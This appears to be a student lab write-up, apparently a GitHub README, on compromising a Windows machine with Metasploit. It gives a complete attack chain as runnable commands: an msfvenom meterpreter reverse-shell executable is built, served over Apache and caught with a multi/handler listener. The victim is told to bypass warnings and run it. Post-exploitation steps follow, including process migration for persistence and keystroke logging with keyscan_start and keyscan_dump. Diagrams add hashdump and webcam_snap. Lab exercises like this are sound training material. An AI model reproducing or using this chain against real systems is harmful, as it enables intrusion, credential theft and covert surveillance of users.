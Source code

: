 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By
- **PRAVISH J**
- **212224040249**
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

![image](https://github.com/user-attachments/assets/b98e3dbe-cbf4-465e-83aa-f1ac913b2a51)

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

![image](https://github.com/user-attachments/assets/094f111d-38e4-47a4-b950-8c0544a3463e)

copy the fun.exe into the apache ```/var/www/html ```folder

![image](https://github.com/user-attachments/assets/1a19f712-d904-4e9a-9c3f-a0f824215d01)

Start apache server ```sudo systemctl apache2 start``` 

![image](https://github.com/user-attachments/assets/2944d067-02b2-43fc-9487-5f9e71c393b7)

Check the status of apache2 ```sudo apache2 status```

![image](https://github.com/user-attachments/assets/1577dcc8-8e32-4080-8459-521367056dc0)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![image](https://github.com/user-attachments/assets/d6bd1bdb-3064-45e8-b6b1-e22d2e80209f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/7be60e9f-2ce3-487a-9668-8bdb282e8931)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

![image](https://github.com/user-attachments/assets/596d3916-66f9-4605-8ae4-5dd21116b77a)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/d53176fa-7af0-4f05-b526-91713074335d)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.



## arcg

```bash
+----------------+                           +------------------+
|                |      Reverse Shell        |                  |
| Attacker       | <-------------------------|   Victim (Win)   |
| (Kali Linux)   |       (TCP 4444)          |  Unpatched SMB   |
|  - msfconsole  |                           |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        | Payload generation using msfvenom           |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload
         LHOST=attacker_ip LPORT=4444               or exploit triggers
         -f exe > evil.exe

        |
        | Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     Meterpreter Session Established (shell access)         |
+------------------------------------------------------------+
| Commands: sysinfo, hashdump, migrate, webcam_snap, etc.    |
+------------------------------------------------------------+

```

## 2

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```
